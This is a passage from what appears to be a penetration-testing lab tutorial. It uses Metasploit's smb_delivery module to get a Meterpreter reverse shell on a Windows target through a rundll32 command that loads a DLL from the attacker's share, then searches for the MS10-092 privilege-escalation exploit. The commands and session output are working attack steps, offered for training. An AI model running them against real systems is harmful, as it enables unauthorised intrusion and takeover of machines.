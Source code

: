 ```shell-session
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Started service listener on 10.10.14.3:445 
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

#### Rundll Command on Target Host

Open a cmd console on the target host and paste in the `rundll32.exe` command.

Windows Server

```cmd-session
C:\htb> rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

#### Receiving Reverse Shell

We get a call back quickly.

Windows Server

```shell-session
msf6 exploit(windows/smb/smb_delivery) > [*] Sending stage (175174 bytes) to 10.129.43.15
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609) at 2021-05-12 15:55:05 -0400
```

#### Searching for Local Privilege Escalation Exploit

From here, let's search for the [MS10\_092 Windows Task Scheduler '.XML' Privilege Escalation](https://www.exploit-db.com/exploits/19930) module.

Windows Server

```shell-session
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338

Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation
   
   
msf6 exploit(windows/smb/smb_delivery) use 0
```

#### Migrating to a 64-bit Process

Before using the module in question, we need to hop into our Meterpreter shell and migrate to a 64-bit process, or the exploit will not work. We could have also chosen an x64 Meterpeter payload during the `smb_delivery` step.
